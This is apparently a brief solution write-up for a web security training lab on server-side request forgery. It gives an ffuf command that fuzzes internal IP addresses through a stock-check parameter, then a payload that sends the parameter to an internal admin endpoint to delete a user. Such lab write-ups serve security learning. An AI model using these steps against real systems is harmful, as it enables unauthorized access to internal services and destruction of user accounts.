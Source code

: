 # Lab: Basic SSRF against another back-end system
Solution: 
- FUZZ the IP address with ffuf
- Make a wordlist numzz containing numbers from 1-155
```sh
ffuf -X POST -u https://acaf1fba1efc1a50c193748d009e007c.web-security-academy.net/product/stock -d "stockApi=http://192.168.0.FUZZ:8080/admin" -w ./numzz
```
- Change the stockApi parameter to
```js
stockApi=http://192.168.0.206:8080/admin/delete?username=carlos
```